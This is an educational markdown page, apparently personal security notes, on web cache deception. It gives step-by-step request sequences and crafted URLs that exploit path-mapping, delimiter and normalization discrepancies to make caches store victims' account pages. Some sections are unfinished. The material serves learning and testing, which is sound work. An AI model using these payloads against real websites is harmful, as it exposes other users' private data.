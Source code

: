 # Web cache deception

Web cache deception is a vulnerability where an attacker tricks a web cache into storing sensitive content due to differences in how cache and origin servers handle requests. The attacker lures a victim into visiting a malicious URL, causing the cache to mistakenly store private data as a static resource. The attacker can then access the cached response, gaining unauthorized access to the sensitive information.

More info about web cache: [web-cache.md](../web-security/web-cache.md "mention")

## <mark style="color:yellow;">Constructing a web cache deception attack</mark> <a href="#constructing-a-web-cache-deception-attack" id="constructing-a-web-cache-deception-attack"></a>

1. Identify a target endpoint that returns dynamic responses with sensitive information, focusing on those supporting GET, HEAD, or OPTIONS methods, as they are typically cached
2. Look for discrepancies in how the cache and origin server parse the URL path
3. Craft a malicious URL to trick the cache into storing a dynamic response. When the victim accesses it, their data is cached. Use Burp to request the same URL and retrieve the cached response. Avoid using a browser to prevent redirects or data invalidation.

## <mark style="color:yellow;">Exploiting static extension cache rules</mark>

Cache rules often target static resources by matching common file extensions like `.css` or `.js`. This is the default behavior in most CDNs.

### <mark style="color:yellow;">Exploiting path mapping discrepancies</mark> <a href="#exploiting-path-mapping-discrepancies" id="exploiting-path-mapping-discrepancies"></a>

<details>

<summary>Path mapping discrepancies (<strong>REST-style vs traditional URL)</strong></summary>

Consider the following example:

`http://example.com/user/123/profile/wcd.css`

* An origin server using **REST-style** URL mapping may interpret this as a request for the `/user/123/profile` endpoint and returns the profile information for user `123`, ignoring `wcd.css` as a non-significant parameter.
* A cache that uses **traditional URL** mapping may view this as a request for a file named `wcd.css` located in the `/profile` directory under `/user/123`. It interprets the URL path as `/user/123/profile/wcd.css`. If the cache is configured to store responses for requests where the path ends in `.css`, it would cache and serve the profile information as if it were a CSS file.

</details>

<pre class="language-sh"><code class="lang-sh"># 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint
<strong>
</strong># 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached
<strong>
</strong><strong># 3. Check if origin server uses REST-style
</strong><strong>/my-account/abc    # The response is identical to the original -> REST-style
</strong><strong>
</strong><strong># 4. Check if cache server uses traditional URL &#x26; explotation
</strong>/my-account/abc.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/my-account/abc.js # 2 time "X-Cache: hit" -> Perfect, the page is cached
# Now https://vulnerable.website.com/my-account/abc.js contains your sensitive data cached

# Find a way to send the victim on https://vulnerable.website.com/my-account/xyz.js
# Note: I omitted cache buster for for simplicity
</code></pre>

{% hint style="info" %}
**Note**:&#x20;

* This attack is limited to the specific endpoint that you tested, as the origin server often has different abstraction rules for different endpoints.
* Try various extensions, such as `.css`, `.ico`, and `.exe`, as caches may have rules for specific extensions.
{% endhint %}

### <mark style="color:yellow;">Exploiting delimiter discrepancies</mark> <a href="#exploiting-delimiter-discrepancies" id="exploiting-delimiter-discrepancies"></a>

<details>

<summary>Delimiter discrepancies</summary>

to do

</details>

Objective: identify a character that is used as a delimiter by the origin server but not the cache. Use this list: [https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list)

```sh
# 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached

# 3. Fuzz delimeter char
/my-account§§aaa   # Fuzz delimeter char. -> with ";" -> The response matches the original

# 4. Check if delimiter is not used by the cache
/my-account        # "X-Cache: miss"
/my-account;abc.js # "X-Cache: miss"
# The cache thinks "my-account;abc" is the name and ".js" is the extension

# 5. Exploitation
/my-account;abc.js # 1 time "X-Cache: miss"
/my-account;abc.js # 2 time "X-Cache: hit"
# Now https://vulnerable.website.com/my-account;abc.js contains your sensitive data cached

# Find a way to send the victim on https://vulnerable.website.com/my-account;xyz.js
# Note: I omitted cache buster for for simplicity
```

{% hint style="info" %}
**Note**:&#x20;

* Because delimiters are generally used consistently within each server, you can often use this attack on many different endpoints.
*   Some delimiter characters may be processed by the victim's browser before it forwards the request to the cache. This means that some delimiters can't be used in an exploit. For example, browsers URL-encode characters like `{`, `}`, `<`, and `>`, and use `#` to truncate the path.

    If the cache or origin server decodes these characters, it may be possible to use an encoded version in an exploit.
* Make sure to test all ASCII characters and a range of common extensions, including `.css`, `.ico`, and `.exe`
{% endhint %}

### <mark style="color:yellow;">Exploiting delimiter decoding discrepancies</mark> <a href="#exploiting-delimiter-decoding-discrepancies" id="exploiting-delimiter-decoding-discrepancies"></a>

to understand

## <mark style="color:yellow;">Exploiting static directory cache rules (Normalization discrepancies)</mark> <a href="#exploiting-static-directory-cache-rules" id="exploiting-static-directory-cache-rules"></a>

Web servers often store static resources in specific directories. Cache rules typically target these by matching URL path prefixes like `/static`, `/assets`, `/scripts`, or `/images`.

Premise

* If you type in your browser `https://website/test/../account`, it'll make the following request `GET /account HTTP/2`. &#x20;
* If you type in your browser`https://website/test/..%2faccount`, it'll make the following request `GET /test/..%2faccount HTTP/2`. &#x20;

```sh
# 1. Find good endpoint
/my-account            # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used (with static resources)
/static/js/info.js     # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/static/js/info.js     # 2 time "X-Cache: hit" -> Perfect, the page is cached
```

### <mark style="color:yellow;">Exploiting normalization by the origin server</mark> <a href="#exploiting-normalization-by-the-origin-server" id="exploiting-normalization-by-the-origin-server"></a>

<pre class="language-sh"><code class="lang-sh"># 3. Confirm that the cache rule is based on the static directory
/static/../xxx         # 1 time "X-Cache: miss"
/static/../xxx         # 2 time "X-Cache: hit" -> so all subpages in /static/ will be cached 

# 4. Detecting normalization by the origin server
/aaa/..%2fmy-account    # Returns the profile information -> The origin server decodes the slash and resolves the dot-segment

# 5. Detecting normalization by the cache server
/static/js/info.js     # 1 time "X-Cache: miss"
/static/js%2finfo.js   # 2 time "X-Cache: miss" -> Cache isn't normalizing the path before mapping it to the endpoint
# So the cache thinks "/static/js/info.js" is different from "/static/js%2finfo.js

# 6. Exploiting
/static/..%2fmy-account

# The cache interprets the path as: /static/..%2fmy-account
<strong># The origin server interprets the path as: /my-account
</strong></code></pre>

### <mark style="color:yellow;">Exploiting normalization by the cache server</mark>

<pre class="language-sh"><code class="lang-sh"># 3. Confirm that the cache rule is based on the static directory
# This step is useless, so you can't confirm if the cache decodes 
# dot-segments and URL paths without trying an exploit.
<strong>
</strong><strong># 4. Detecting normalization by the origin server
</strong>/aaa/..%2fmy-account    # Not found -> The origin server doesn't decode the slash and doesn't resolve the dot-segment

# 5. Detecting normalization by the cache server
/static/js/info.js     # 1 time "X-Cache: miss"
/static/js/info.js     # 2 time "X-Cache: hit"
/static/js%2finfo.js   # 2 time "X-Cache: hit" -> Cache has normalized the path
# So the cache understand that they are the same path

# 6. Identify a delimiter that is used by the origin server but not the cache
/my-account§§aaa   # Fuzz delimeter char. -> with "%23" -> The response matches the original

# 7. Check if delimiter is not used by the cache 
/static/js/info.js        # "X-Cache: miss"
/static/js/info.js%23aaa  # "X-Cache: miss"
# So the cache thinks "info.js" is different from "info.js%23aaa"

# 8. Exploitation
/my-account%23%2f%2e%2e%2fstatic/js/info.js

# The cache interprets the path as: /static
# The origin server interprets the path as: /my-account
</code></pre>
